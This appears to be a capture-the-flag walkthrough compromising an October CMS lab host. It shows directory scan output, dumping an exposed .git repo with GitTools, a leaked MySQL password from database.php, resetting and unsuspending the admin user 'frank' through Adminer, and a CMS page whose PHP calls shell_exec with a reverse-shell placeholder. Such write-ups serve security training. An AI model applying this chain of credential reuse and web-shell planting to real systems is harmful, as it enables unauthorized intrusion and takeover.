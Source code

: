     /ABOUT                (Status: 200) [Size: 18661]

>> # On Port : 8585:

    /img                  (Status: 302) [Size: 27] [--> /img]
    /admin                (Status: 302) [Size: 34] [--> /user/login]
    /issues               (Status: 302) [Size: 34] [--> /user/login]
    /css                  (Status: 302) [Size: 27] [--> /css]       
    /avatars              (Status: 302) [Size: 31] [--> /avatars]   
    /js                   (Status: 302) [Size: 26] [--> /js]        
    /vendor               (Status: 302) [Size: 30] [--> /vendor]    
    /fonts                (Status: 302) [Size: 29] [--> /fonts]     
    /explore              (Status: 302) [Size: 37] [--> /explore/repos]
    /debug                (Status: 200) [Size: 160]                    
    /milestones           (Status: 302) [Size: 34] [--> /user/login]   
    /notifications        (Status: 302) [Size: 34] [--> /user/login]   
    /frank                (Status: 200) [Size: 11330]                  
    /Frank                (Status: 200) [Size: 11328]                  
    /healthcheck          (Status: 200) [Size: 26]


>> nmap finds a .git repository.using gittools extract all from .git 
>> download : gittools
>>  Dumper : dump all the data from .git repo
>> Extractor : extract all the files from dumpfile.

>> so i extract all the details in website folder.
>> i found a adminer.php page having mysql login. and also found a database.php file in which creds are present.

    'mysql' => [
            'driver'     => 'mysql',
            'engine'     => 'InnoDB',
            'host'       => 'localhost',
            'port'       => 3306,
            'database'   => 'octoberdb',
            'username'   => 'october',
            'password'   => 'SQ66EBYx4GT3byXH',
            'charset'    => 'utf8mb4',
            'collation'  => 'utf8mb4_unicode_ci',
            'prefix'     => '',
            'varcharmax' => 191,
>> login in mysql portal and change the password of frank user.
>> after changing the frank password,login says frank user account has suspended
>> so run below mysql query and go ahead.

>> # SELECT * FROM backend_user_throttle WHERE is_suspended = 1

>> create a new webpage of name 'shell'.
>> put following code in 'code' section of compiler.

    function onStart()
    {
        $this->page["myVar"] = shell_exec("<Reverse_shell>");
    }
>> and in Markup put below code.
    {{ page.this.myVar }}
